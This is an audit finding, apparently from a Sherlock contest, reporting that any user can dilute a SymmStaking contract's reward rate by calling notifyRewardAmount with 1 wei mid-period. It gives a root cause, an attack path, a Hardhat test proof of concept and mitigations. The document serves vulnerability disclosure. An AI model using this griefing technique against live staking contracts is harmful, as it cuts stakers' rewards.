 Bumpy Teal Mule

High

# Any user can grief reward rates by adding minimal rewards

### Summary

The lack of check for the new reward rate to be more than the old rate in _addRewardsForToken will cause significant reward rate reduction for stakers as malicious users can add tiny reward amounts to dilute the reward rate calculation.

### Root Cause

In the function [__addRewardsForToken](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L366-L379), the reward rate recalculation doesn't validate that the new rate is bigger than the old rate, allowing tiny amounts to drastically reduce the rate when added mid-period.

### Internal Pre-conditions

1. Someone needs to have configured a reward token and notified initial rewards
2. At least one user needs to be staking tokens
3. Current reward period needs to be ongoing (block.timestamp < periodFinish)

### Attack Path

1. Attacker waits some time to pass of the reward period
2. Attacker calls `notifyRewardAmount` with 1 wei
3. The reward rate is recalculated using: `(1 wei + remaining_rewards) / 7 days (in seconds)`
4. This drastically reduces the reward rate for the new period

### Impact

 Stakers suffer significant reduction in expected rewards. The attacker only loses 1 wei of reward tokens to execute the grief. Moreover, whenever the griefer repeats the attack permanently, the rewards rate will be dilluted indefinitely, DOSing the rewards forever

### PoC

Add this test to symmStaking.behavior.ts.

```javascript
		it("griefing rewards rates", async function () {
			// Scenario: Single depositor — user1 deposits 604,800 SYMM.

			const USDCDeposit = "99792000"		// 99,79 USD (165 USDC tokens per second)
			const depositAmount = "604800"		// 604800 SYM
			await usdcToken.connect(admin).approve(await symmStaking.getAddress(), USDCDeposit)
			await symmStaking.connect(admin).configureRewardToken(await usdcToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await usdcToken.getAddress()], [USDCDeposit])

			//

			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user1).deposit(depositAmount, user1.address)


			await time.increase(302400)

			// after half of the time -> 3,5 days, the user claims USDC, he should get 49896000 (with a little bit difference due to rounding)

			const user1USDCFirstBalanceBefore = await usdcToken.balanceOf(user1.address)
			await symmStaking.connect(user1).claimRewards()
			const user1USDCFirstBalanceAfter = await usdcToken.balanceOf(user1.address)
			const firstClaim = user1USDCFirstBalanceAfter - user1USDCFirstBalanceBefore

			console.log("first claim:", firstClaim)


			const griefAmount = "1"

			// transfering 1 USDC from the admin to user2 (instead of minting)
			await usdcToken.connect(admin).transfer(user2.address, griefAmount)

			// user 2 griefs the rate by calling notifyRewardAmount with 1 amount

			await usdcToken.connect(user2).approve(await symmStaking.getAddress(), griefAmount)
			await symmStaking.connect(user2).notifyRewardAmount([await usdcToken.getAddress()], [griefAmount])


			await time.increase(302400)

			const griefedUser1BalanceBefore = await usdcToken.balanceOf(user1.address)
			await symmStaking.connect(user1).claimRewards()
			const griefedUser1BalanceAfter = await usdcToken.balanceOf(user1.address)

			const secondClaim = griefedUser1BalanceAfter - griefedUser1BalanceBefore
			console.log("second claim:", secondClaim)

			console.log("difference between claims", (firstClaim - secondClaim))

			// user2 could grief reward rate infinitely
```


### Mitigation

1. Ensure new rate is higher or equal to the current rate
2. Only allow authorized roles (like REWARD_MANAGER_ROLE) to call `notifyRewardAmount`
